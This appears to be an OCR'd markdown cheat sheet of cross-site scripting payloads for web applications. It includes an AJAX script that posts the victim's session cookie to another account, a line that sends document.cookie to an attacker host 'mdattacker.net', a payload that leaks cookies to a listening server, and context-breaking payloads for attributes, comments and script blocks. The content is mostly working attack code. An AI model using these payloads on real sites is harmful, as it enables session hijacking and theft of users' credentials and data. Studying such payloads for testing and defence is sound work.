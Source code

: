 ------------------------------------------
**Exploiting any Trust Relationship**
- The first is send a cookie to another domain (Example in AJAX Request)
- If the application use forms and the browser have autocomplete enabled with javascript we can get any content that the user have saved in the browser cache and send this information to the malicious server
-  ActiveX controls 

-----------------------------

- AJAX Request to obtain a session token
	```
	<script>
		d = "&to=eviluser&enviar=Enviar&mensaje=Mi cookie es: "+document.cookie;
		if(window.XMLHttpRequest)
		{
		x=new XMLHttpRequest();
		}
		else
		{
		x=new ActiveXObject('Microsoft.XMLHTTP');
		}
		x.open("POST","func/send.php",true);
		x.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
		x.setRequestHeader('Content-Length',d.length);
		x.send(d);
	</script>
	```

If you discover some input where you can add html code you can try inject javascript code with:
```
# basic tests
<scrip>alert("testing XSS");</script>
<script>alert(document.cookie)</script>
%00<script>alert(1)</script>
<iframe src=j&#x61;vasc&#x72ipt&#x3a;alert&#x28;1&#x29; #html encode some characters

#### Open an http server in your malicious machine (python3 -m http.server)
<script>document.write('<img src="http://127.0.0.1:8000/daffi.png?cookie=' + document.cookie + '">')</script>
###or
var i=new Image; i.src=”http://mdattacker.net/”+document.cookie;

### inside a value tag
<input type="text" name="q2 value="[MyText]" />
#### for example
"/><script>alert("¡Hola Mundo!");</script><div class="

### Inside a comment
<!-- La busqueda fue "[busqueda]" -->
--><script>alert("¡Hola Mundo");</script><!-

### Code copied inside javascript tags
<script> var busqueda = "[MyText]"; </script>
#### just you need use something like
";alert("¡Hola Mundo!");//
```
